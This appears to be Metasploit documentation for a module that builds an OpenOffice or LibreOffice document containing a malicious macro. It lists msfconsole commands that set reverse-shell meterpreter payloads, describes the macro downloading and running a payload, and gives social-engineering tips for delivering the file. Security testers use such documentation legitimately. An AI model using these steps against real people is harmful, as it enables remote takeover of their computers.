 ## Description

This module generates an Apache OpenOffice Text Document with a malicious macro in it. It also
works against LibreOffice.

To exploit successfully, the targeted user must adjust the security level in Macro Security to
either Medium or Low. If set to Medium, a prompt is presented to the user to enable or disable the
macro. If set to Low, the macro can automatically run without any warning.

## Vulnerable Application

* Apache OpenOffice
* LibreOffice

## Verification Steps

To use this exploit, you must know the platform of the targeted user. The module supports Windows,
Linux, and OSX. If the target is using Windows, then the exploit will generate the macro
with malicious Powershell code inside. For other supported platforms, the exploit will generate
Python code.

An example of using this module against Windows:

1. Start msfconsole
2. ```use exploit/multi/misc/openoffice_document_macro```
3. ```set target 0```
4. ```set payload windows/meterpreter/reverse_tcp```
5. ```exploit```

An example of using this module against Linux or OSX:

1. Start msfconsole
2. ```use exploit/multi/misc/openoffice_document_macro```
3. ```set target 1```
4. ```set payload python/meterpreter/reverse_tcp```
5. ```exploit```

Once started, the module will mainly do these things:

1. It will start a payload handler.
2. It will start a web server. This is used for the macro to download and execute our final payload.
3. The malicious odt file. Send this to your targeted user.

## Options

**BODY**

This option can be used to insert text to the malicious document.

## Demo

![openoffice_macro_demo](https://cloud.githubusercontent.com/assets/1170914/22761020/9e7667ca-ee1e-11e6-9fc1-a29c55f405f0.gif)

## Modification

Since social engineering will play a big part in the success of the attack, you will most likely
want to modify the odt file.

1. To do so, first use msfconsole to generate the malicious odt file.
2. Move the odt file to a system that has OpenOffice or LibreOffice
3. You can just use OpenOffice/LibreOffice to edit the file. Make sure you don't modify the macro
   code unless you actually know what you're doing.

